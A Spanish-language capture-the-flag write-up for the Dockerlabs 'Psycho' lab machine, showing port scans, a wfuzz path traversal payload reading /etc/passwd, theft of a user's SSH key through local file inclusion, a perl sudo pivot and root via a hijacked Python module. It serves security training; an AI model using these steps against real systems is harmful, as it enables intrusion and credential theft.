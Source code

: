 ```yaml
---
layout: post
title: Psycho
subtitle: Plataforma Dockerlabs Dificultad Fácil
cover-img: /assets/img/Psycho.png
thumbnail-img: /assets/img/Psycho.png
share-img: /assets/img/Psycho.png
author: Elmili72
---
```


![Psycho](https://github.com/user-attachments/assets/8d6a9647-125a-4dd6-ba57-443727f3660a)

## 1. Escaneo general de puertos

El primer paso como siempre será realizar un escaneo general de los puertos en la máquina.

```bash
sudo nmap -sS -p- --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports
```

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

## 2. Escaneo específico de puertos

Conociendo los puertos abiertos, ahora habría que realizar un escaneo específicos de esos puertos para conocer que servicios y en que versión corren esos puertos.

```bash
nmap -sCV -p22,80 172.17.0.2 -oN target
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 38:bb:36:a4:18:60:ee:a8:d1:0a:61:97:6c:83:06:05 (ECDSA)
|_  256 a3:4e:4f:6f:76:f2:ba:50:c6:1a:54:40:95:9c:20:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: 4You
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos que tenemos los puertos 22 y 80.
## 3. Reconocimiento de servicio web

A la hora de hacer reconocimiento web, a mi me gusta utilizar la herramienta *WHATWEB* para conocer las teconologías que corren en el puerto 80.

```bash
whatweb http://172.17.0.2                                                                                                                     
http://172.17.0.2 [200 OK] Apache[2.4.58], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[172.17.0.2], Script, Title[4You]
```

Una vez hemos visto lo que usa entramos en la página para ver lo que hay. Vemos botones de login y demás que no tienen ningún tipo de función.

![image](https://github.com/user-attachments/assets/0019ef0b-30e5-4241-ac56-255c5a704a4b)

Si bajamos del todo en la página aparece muy pequeño un mensaje de error.

![image](https://github.com/user-attachments/assets/428ac325-3e53-47a3-9d62-7220659ca3bd)

Podemos intuir que al ser una extensión *PHP* está intentando realizar una llamada  aun archivo del sistema que no llegar a alcanzar. Por lo que realizamos un escaneo con *WFUZZ* para reconocer el parámetro al cual tiene que llamar para cargar ese error. Además, de añadir un destino que podría sernos interesante para que ese parámetro nos refleje información si fuera el caso.

## 4. Escaneo de servicio web

Una vez ya hemos visto el contenido de la página toca escanear el interior de esta, usando *GOBUSTER* no nos aparece nada que sea realmente útil. Así que atendiendo a lo anteriormente dicho procedemos a realizar Fuzzing para ver si hemos acertado con la teoría.

```bash
wfuzz -c --hc 404 --hw 169 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://172.17.0.2/index.php?FUZZ=../../../../../etc/passwd
```

Efectivamente, aparece un parámetro llamado *secret*, con el cual podemos hacer cositas.

![image](https://github.com/user-attachments/assets/705c39fa-de8b-4a45-8479-6d06dc66825c)

Lo primero será mirar que usuarios tenemos y por los que podemos intentar una intrusión.

![image](https://github.com/user-attachments/assets/bc8910fb-5972-4085-adeb-7b9b72f4eb7e)

![image](https://github.com/user-attachments/assets/6dcee189-6749-47e0-966e-df4cc49a0f16)

![image](https://github.com/user-attachments/assets/0767be01-a0de-4282-8e66-75e03895c9fd)

## 5. Intrusión

Realizamos un intento de fuerza bruta con **HYDRA** pero no nos saca nada, por lo que vamos a aprovechar el parámetro de la web para intentar lograr alguna **ID_RSA** de los usuarios.

![image](https://github.com/user-attachments/assets/4c3b1611-d6bd-4fbd-87c9-f10dcd7c4c9b)

**IMPORTANTE**
```bash
chmod 600 id_rsa
```

![image](https://github.com/user-attachments/assets/77718b41-2afc-47bb-b5c2-50d5d6ccb8e4)

Y estamos dentro del usuario *Vaxei*

## 6. Pivoting

El usuario actual lamentablemente no nos da la posibilidad de realizar una escalada de privilegios directa, por lo que tendremos que realizar pivoting para saltar al usuario Luisillo y comprobar si nos da ese permiso.

```bash
vaxei@8a3056fa86ef:~$ sudo -l
Matching Defaults entries for vaxei on 8a3056fa86ef:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User vaxei may run the following commands on 8a3056fa86ef:
    (luisillo) NOPASSWD: /usr/bin/perl
```

Vemos que el binario *perl* puede ser explotado para el pivoting por lo que tiramos de nuestro fiel amigo *GTFOBins* y nos convertimos en el usuario Luisillo.

```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/sh";'
script /dev/null -c bash
stty raw -echo; fg
Ctrl + Z
reset XTERM

luisillo@8a3056fa86ef:/home/vaxei$ whoami
luisillo
```

## 7. Escalada de privilegios

Ahora el paso más bonito de un CTF, convertirnos en *ROOT*.

```bash
luisillo@8a3056fa86ef:/home/vaxei$ sudo -l
Matching Defaults entries for luisillo on 8a3056fa86ef:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on 8a3056fa86ef:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/paw.py
```

De primeras ya vemos un script llamado *paw.py* que ejecuta un script que hace una llamada a un módulo que parece que no existe, por lo que como buenas personas que somos vamos a entregarle ese proceso que tanto busca :).

![image](https://github.com/user-attachments/assets/9def538a-44df-45fb-9c1f-45dd934fbfe4)

Creamos un script que se llame igual que pide el script anterior, en este caso *subprocess.py*. Y escribirmos lo siguiente:

![image](https://github.com/user-attachments/assets/9ce67438-f6cc-4295-bf9f-e038c39beecc)

![image](https://github.com/user-attachments/assets/5ae23475-978b-4397-91ef-40e022038683)


Podemos ver en la imagen anterior que la bash no tiene permisos SUID, pero nosotros vamos a corregir eso con nuestro suprocess.py.

![image](https://github.com/user-attachments/assets/864eb1f0-9ffc-4716-af0a-fac0768eb5f4)

![image](https://github.com/user-attachments/assets/956a65d6-49df-451b-8044-2073b5b1a383)

Tras ejecutar el script vemos que le hemos dado ese privilegio a la bash para poder ejecutar una bash privilegiada desde el usuario Luisillo.

```bash
luisillo@8a3056fa86ef:/opt$ bash -p
bash-5.2# whoami
root
```

Espero que os haya gustado y que os haya sido de ayuda este writeup, nos vemos en el próximo!
